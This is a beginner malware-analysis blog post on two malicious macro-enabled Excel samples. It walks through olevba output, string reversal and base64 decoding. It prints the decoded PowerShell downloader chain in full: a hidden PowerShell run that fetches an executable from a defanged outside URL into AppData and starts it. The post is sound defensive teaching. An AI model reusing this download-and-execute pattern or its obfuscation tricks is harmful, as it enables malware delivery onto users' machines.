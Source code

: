 ```yaml
---
layout: post
title: "Analyzing Macro enabled Office Documents"
image: "/images/msofficemacros/cover.png"
description: "How to analyze Macro enabled Office Documents"
tags: [Malware-Analysis, Reverse-Engineering] 
---
```

Experience Level required: beginner 

# Objectives

In this blog we will Learn how to analyze MS Office Macro enabled Documents.

{% highlight text %}
1st sample:
    8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5
2nd sample:
    a9f8b7b65e972545591683213bb198c1767424423ecc8269833f6e784aa8bc99
{% endhighlight %}

# 1st Sample

Let's see the sample in Virus Total

![](/images/msofficemacros/image2.jpg)

37 of 63 security vendors detected this file as malicious. 

Let's open the file.

![](/images/msofficemacros/image1.jpg)

It uses a social engineering technique to persuade the user to enable the macros that lead to the infection of the user.

Let's see the macro code of the sample, I'll use olevba

{% highlight text %}
olevba "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm"
{% endhighlight %}
![](/images/msofficemacros/image3.jpg)

It has many suspicious functions, It also has base64 strings

![](/images/msofficemacros/image7.jpg)

Let's dump the macro code to a file to see it better

{% highlight text %}
olevba -c "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm" > dump.vba
{% endhighlight %}
Let's view the dumped file with notepad ++ (you can view it with any text editor software)

![](/images/msofficemacros/image4.jpg)

This function concatenates two strings, then reverses the result string and assigns it to **Prefix3**.

![](/images/msofficemacros/image5.jpg)

I'll use this python script to reverse the string

{% highlight text %}
def reverse_string(input_string):
    return input_string[::-1]

input_string = "cne- 1 niw- exe.llehsrewop\\0.1v\\llehSrewoPswodniW\\23metsyS\\swodniW\:C"
reversed_string = reverse_string(input_string)
print("Original string:", input_string)
print("Reversed string:", reversed_string)
{% endhighlight %}

![](/images/msofficemacros/image6.jpg)

**Prefix3** =
{% highlight text %}
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -win 1 -enc
{% endhighlight %}
Let's go to the next function

The function concatenates 8 base64 encoded strings and assigns it to **Prefix2**.

![](/images/msofficemacros/image8.jpg)

I'll use cyberchef to decode the strings

![](/images/msofficemacros/image9.jpg)

**Prefix2** =
{% highlight text %}
$ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New-Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif","$env:APPDATA\$ProcName");
Start-Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

Let's go to the next function

![](/images/msofficemacros/image10.jpg)

It concatenates strings

**Prefix1** =
{% highlight text %}
start /MIN
{% endhighlight %}

Let's go to the last function

![](/images/msofficemacros/image11.jpg)

It concatenates **Prefix1**, **Prefix3** and **Prefix2** and print the result in a .bat file named "Bixkcozkkemqyslgmpvwuri.bat" then it runs the file

The resulted .bat file will be:
{% highlight text %}
start /MIN C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  - win 1  - enc $ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New - Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif", "$env:APPDATA\$ProcName");
Start - Process ("$env:APPDATA\$ProcName")
{% highlight text %}

This script runs powershell script to download file from "hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif" to the current user's AppData directory with name "Ktaqftbffhqhoxzyblssi.exe" and executes it.

# 2nd Sample

32 of 60 security vendors detected this file as malicious.

![](/images/msofficemacros/image12.jpg)

Let's open the sample

![](/images/msofficemacros/image13.jpg)

It also employs a social engineering technique to convince the user to enable macros, which then leads to the user being infected.

Let's see its macro code

{% highlight text %}
olevba C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls
{% endhighlight %}

![](/images/msofficemacros/image14.jpg)

It uses **wscript** language and base64 encoding

Let's dump it to file
{% highlight text %}
olevba -c C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls > dump.vba
{% endhighlight %}
![](/images/msofficemacros/image15.jpg)

Let's try to decode this strings

![](/images/msofficemacros/image16.jpg)


This powershell script is downloading a file from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it starts it

CreateObject("Wscript.Shell") return is assigned to **zKShMevSa**

![](/images/msofficemacros/image17.jpg)

So **zKShMevSa** acts like **Wscript.Shell** and **zKShMevSa**.Run = Wscript.Shell.Run.

It's clear now **Wscript.Shell.Run** executes the powershell script that downloads the malware from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it executes it.

This blog is authored by **Mostafa Farghaly(M4lcode)**.